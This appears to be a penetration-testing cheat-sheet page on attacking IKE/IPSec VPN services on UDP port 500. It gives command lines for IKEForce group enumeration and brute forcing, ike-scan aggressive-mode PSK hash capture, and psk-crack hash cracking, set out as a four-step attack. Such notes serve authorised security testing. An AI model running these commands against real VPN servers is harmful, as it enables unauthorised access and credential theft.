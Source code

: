 ```yaml
---
description: IKE is aprt of IPSec protocol, which is part of VPN's, it uses UDP port 500
---
```


# 500 - IKE

### &#x20;IKEFORCE&#x20;

Use IKEForce to enumerate or dictionary attack VPN servers.&#x20;

Install:&#x20;

```
pip install pyip 
git clone https://github.com/SpiderLabs/ikeforce.git
```

Perform IKE VPN enumeration with IKEForce:&#x20;

```
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
```

Bruteforce IKE VPN using IKEForce:&#x20;

```
./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1
```

### ike-scan&#x20;

```
ike-scan TARGET-IP 
ike-scan -A TARGET-IP 
ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key
```

&#x20;IKE Aggressive Mode PSK Cracking&#x20;

1. Identify VPN Servers&#x20;
2. Enumerate with IKEForce to obtain the group ID&#x20;
3. Use ike-scan to capture the PSK hash from the IKE endpoint&#x20;
4. Use psk-crack to crack the hash&#x20;

Step 1: Identify IKE Servers (uses [https://github.com/portcullislabs/udp-proto-scanner](https://github.com/portcullislabs/udp-proto-scanner))

```
./udp-protocol-scanner.pl -p ike SUBNET/24
```

Step 2: Enumerate group name with IKEForce&#x20;

```
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
```

Step 3: Use ike-scan to capture the PSK hash&#x20;

```
ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP
```

Step 4: Use psk-crack to crack the PSK hash&#x20;

```
psk-crack hash-file.txt
```

Some more advanced psk-crack options below:&#x20;

```
pskcrack 
psk-crack -b 5 TARGET-IPkey 
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key 
psk-crack -d /path/to/dictionary-file TARGET-IP-key
```
